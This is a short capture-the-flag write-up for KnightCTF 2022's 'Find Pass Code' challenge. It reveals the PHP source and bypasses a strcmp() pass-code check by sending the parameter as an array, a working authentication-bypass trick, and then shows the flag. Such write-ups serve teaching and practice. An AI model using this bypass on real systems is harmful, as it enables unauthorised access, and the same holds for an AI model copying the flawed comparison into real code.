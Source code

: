# Kinght CTF - Find Pass Code - 1

Inspect html code, we can see a comment:
```
Hi Serafin, I learned something new today. 
I build this website for you to verify our KnightCTF 2022 pass code. You can view the source code by sending the source param
```
Ok, let's try that:
path: http://159.223.166.39:9000/?source=
```php
<?php
require "flag.php";
if (isset($_POST["pass_code"])) {
    if (strcmp($_POST["pass_code"], $flag) == 0) {
        echo "KCTF Flag : {$flag}";
    } else {
        echo "Oh....My....God. You entered the wrong pass code.<br>";
    }
}
if (isset($_GET["source"])) {
    print show_source(__FILE__);
}

?>
```
Php strcmp() function, typical huh!
This function return 0 when 2 string compare equal(case-sensitive) but this it really easy to bypass, if arg is an array instead of string --> strcmp return false which equal to 0.
**payload**: passcode[]=1

*Warning*: strcmp() expects parameter 1 to be string, array given in /var/www/html/index.php on line 4

**KCTF Flag** : KCTF{ShOuLd_We_UsE_sTrCmP_lIkE_tHaT}

